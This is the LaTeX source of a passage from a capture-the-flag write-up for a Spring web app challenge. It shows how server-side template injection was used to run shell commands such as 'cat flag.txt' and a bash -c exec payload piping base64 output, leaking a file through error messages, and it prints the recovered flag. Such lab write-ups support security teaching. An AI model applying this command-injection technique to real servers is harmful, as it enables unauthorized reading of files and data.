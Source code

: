 \documentclass[english,a4paper,nols,noindent]{tufte-handout}
\begin{document}
{\footnotesize\begin{verbatim}
{
    "timestamp": "2021-04-25T15:01:02.026+0000",
    "status": 500,
    "error": "Internal Server Error",
    "message": "Error resolving template [page-seasons], template might not exist or might not \
                        be accessible by any of the configured Template Resolvers",
    "path": "/season"
}
\end{verbatim}
}

\noindent The output of the command is \verb+seasons+; we are running as user \verb+seasons+.  Now it is a matter of finding the flag, using \verb+ls+.  The error message only displays the first entry, so it is a bit of a pain, but finally we get an error message that themplate \verb+[page-flag.txt]+ is not known.  Use \verb+cat flag.txt+ to show the contents, unfortunately what we get is

{\footnotesize\begin{verbatim}

    "timestamp": "2021-04-25T15:05:08.017+0000",
    "status": 500,
    "error": "Internal Server Error",
    "message": "Error resolving template [page-well], template might not exist or might not \
                        be accessible by any of the configured Template Resolvers",
    "path": "/season"
}
\end{verbatim}
}

\noindent So we have the flag, but only the first word...  First thought: use
\verb+base64 flag.txt+ to encode the file and get it: the error
message is
\verb+d2VsbCBkb25lLCBoZXJlIGlzIHlvdXIgZmxhZzogaGUyMDIxe1NwcjFuZ18xc19teV9mNHZydF9z+
which decodes to
\verb+well done, here is your flag: he2021{Spr1ng_1s_my_f4vrt_s+.
  This corresponds with a base64 string with breaks at position 80.
  We have to find a way to get the second line as well and for this we
  probably need a pipe.  This can be created using 
  \verb+new String[] { "bash", "-c", "base64 flag.txt | tail -1" }+ as
  an argument to exec.  This returns \verb+page-MzRzbiF9+, and we can
  construct the whole \verb+flag.txt+ as

 \noindent\verb+well done, here is your flag: he2021{Spr1ng_1s_my_f4vrt_s34sn!}+
  

\hypertarget{he21.35}{%
\section{HE21.35 The Snake}
  \label{he21.35}}
\begin{marginfigure}
    \includegraphics[width=50mm]{images/challenge35.jpg}
\end{marginfigure}
\end{document}
